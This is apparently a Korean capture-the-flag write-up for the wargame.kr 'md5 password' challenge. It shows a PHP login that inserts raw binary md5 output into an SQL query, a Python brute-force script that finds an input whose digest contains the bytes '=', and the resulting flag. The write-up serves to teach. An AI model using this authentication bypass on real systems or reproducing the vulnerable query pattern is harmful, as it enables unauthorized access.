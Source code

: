 # [DreamHack] [wargame.kr] md5 password

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> md5('value', true);

## Analysis

```php+HTML
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  include("./lib.php"); # include for $FLAG, $DB_username, $DB_password.
  $conn = mysqli_connect("localhost", $DB_username, $DB_password, "md5_password");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  $ps = mysqli_real_escape_string($conn, $_POST['ps']);
  $row=@mysqli_fetch_array(mysqli_query($conn, "select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "FLAG : ".$FLAG;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```

`$ps`에 `md5($ps,true)`로 해시를 씌워서 SQL 쿼리에 넣는다. 이 값이 `admin_password`에 있는 값과 일치하면 플래그를 획득할 수 있는데, 패스워드를 맞출 수는 없고 `md5()` 함수의 특징을 이용한 SQL injection으로 해결해야 한다.

## Exploit

`md5()` 함수의 두 번째 인자에 `true`를 전달하면 함수의 반환값은 16진수 문자열이 아니라 바이트 문자열로 반환된다.

```php
<?php
echo md5('aaaa', true); // result: t�s7EB��?��f=��
?>
```

```php
<?php
echo md5('aaaa', false); // result: 74b87337454200d4d33f80c4663dc5e5
?>
```

만약 해시 결과에 `'='`라는 문자열이 포함된다면, 쿼리는 `select * from admin_password where password='???'='***'`가 된다. `password='???'`의 결과는 false이고, `false='***'`는 true이므로, 결과적으로 쿼리는 `select * from admin_password where true`가 된다. 그러면 플래그를 획득할 수 있다.

md5 해시를 씌운 결과에 `'='`가 포함되는 문자열을 찾아서 넣으면 된다.

```python
import hashlib

ps = 0

while 1:
    hash_result = hashlib.md5()
    hash_result.update(str(ps).encode())
    
    if b'\'=\'' in hash_result.digest():
        break
    else:
        ps += 1

print(ps)
```

```
$ python3 solve.py
1839431
```

![image](https://user-images.githubusercontent.com/102066383/164066476-040e8aa2-47e1-4889-a397-91272ebf98fc.png)

![image](https://user-images.githubusercontent.com/102066383/164066510-8ac57578-66d5-4f81-bc7d-6df0bd93c761.png)

```
flag: DH{9d6745675a079f8cb20347e29138720df37e185f}
```
